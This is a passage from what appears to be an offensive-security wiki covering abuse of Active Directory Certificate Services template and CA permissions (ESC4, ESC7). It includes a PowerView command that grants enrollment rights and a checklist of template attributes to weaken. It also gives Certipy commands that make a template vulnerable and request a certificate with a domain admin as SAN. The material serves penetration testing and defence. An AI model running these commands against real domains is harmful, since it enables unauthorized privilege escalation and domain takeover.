 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev)'s [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) function (in [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)) can be used to add `Certificate-Enrollment` rights to a "controlled AD object" over a specific template. In order to achieve this, the attacker needs to have enough rights (i.e. [`WriteDacl`](../dacl/grant-rights.md)) over the certificate template.

```powershell
Add-DomainObjectAcl -TargetIdentity "target template" -PrincipalIdentity "controlled object" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=DOMAIN,DC=LOCAL" -Verbose
```

The example above shows how to edit a certificate template's DACL (requires [`WriteDacl`](../dacl/grant-rights.md) over the template, i.e. [ESC4](access-controls.md#certificate-templates-esc4)), but modifying a CA's DACL follows the same principle (requires [`WriteDacl`](../dacl/grant-rights.md) over the CA, i.e. [ESC7](access-controls.md#certificate-authority-esc7)).
{% endhint %}

### Certificate templates (ESC4)

In order to obtain an abusable template, some attributes and parameters need to be properly setup

1. Get Enrollment rights for the vulnerable template
2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval
3. Set `mspki-ra-signature` attribute to `0` to disable Authorized Signature requirement
4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` to allow requesting users to specify another privileged account name as a SAN
5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication
   1. Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)
   2. Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)
   3. PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)
   4. Any Purpose (OID: `2.5.29.37.0`)
   5. No EKU
6. Request a certificate (with a high-privileged user's name set as SAN) for authentication and perform [Pass the Ticket](../kerberos/ptt.md).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate these sensitive access control entries ([how to enumerate](./#attack-paths)), and to overwrite the template in order to add the SAN attribute and make it vulnerable to ESC1. It also had the capacity to save the old configuration in order to restore it after the attack.

```bash
# 1. Save the old configuration, edit the template and make it vulnerable
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -save-old

# Warning: running the coommand twice will override the backup file, make sure to keep a seconde backup of the old configuration somwhere.

# 2. Request a template certificate with a custom SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

# 3. After the attack, restore the original configuration
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -configuration 'templateName.json'
```
